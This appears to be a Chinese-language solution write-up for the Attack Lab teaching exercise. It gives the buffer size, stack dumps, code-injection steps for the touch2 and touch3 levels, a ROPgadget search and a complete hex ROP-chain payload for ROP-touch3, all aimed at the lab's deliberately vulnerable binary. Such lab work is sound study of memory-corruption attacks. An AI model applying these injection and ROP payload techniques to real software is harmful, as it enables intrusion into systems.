 ## touch1
```
pwndbg> -l kaaa
40
```
缓冲区大小为40，直接塞数据

## touch2
```
─────[ STACK ]
00:0000│ rax rsp  0x5561dc78 ◂— 0x31 /* '1' */
01:0008│          0x5561dc80 ◂— 0
... ↓
04:0020│          0x5561dc98 —▸ 0x55586000 ◂— 0
05:0028│          0x5561dca0 —▸ 0x401976 (test+14) ◂— mov    edx, eax
06:0030│          0x5561dca8 ◂— 9 /* '\t' */
07:0038│          0x5561dcb0 —▸ 0x401f24 (launch+112) ◂— cmp    dword ptr [rip + 0x2025bd], 0
─────[ BACKTRACE ]
 ► f 0           4017b4 getbuf+12
   f 1           401976 test+14
   f 2           401f24 launch+112

```
得到栈顶的值，用来写shellcode，具体流程：
getbuf -> return -> (0x5561dc78) movq $0x59b997fa, %rdi -> pushq -> return

## touch3
后面函数重新申请栈空间，如果把cookie写在之前getbuf函数申请的栈空间中，会被后面函数覆盖。写到返回地址之后即可。
具体流程：
getbuf -> return -> (0x5561dc78) movq $0x5561dca8, %rdi -> pushq -> return
0x5561dca9中写入转化为字符串的cookie

## ROP-touch2
借助ROPgadget
`root@ctf:/ctf/work/Pwn_study/attacklab# ROPgadget --binary ctarget --only 'pop|ret' | grep 'rdi'
0x000000000040141b : pop rdi ; ret`
构造流程：return -> (0x40141b) pop rdi ; return -> touch2

## ROP-touch3
借助farm.c寻找rop，rop链比较绕
```
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
ad 1a 40 00 00 00 00 00 // movq %rsp, %rax
c5 19 40 00 00 00 00 00 // movq %rax, %rdi 
ab 19 40 00 00 00 00 00 // gpopq %rax 
48 00 00 00 00 00 00 00 // offset
42 1a 40 00 00 00 00 00 // movl %eax, %edx 
34 1a 40 00 00 00 00 00 // movl %edx, %ecx 
13 1a 40 00 00 00 00 00 // movl %ecx, %esi 
d6 19 40 00 00 00 00 00 // add_xy 
c5 19 40 00 00 00 00 00 // movq %rax, %rdi 
fa 18 40 00 00 00 00 00 // touch3 
35 39 62 39 39 37 66 61 
00
```
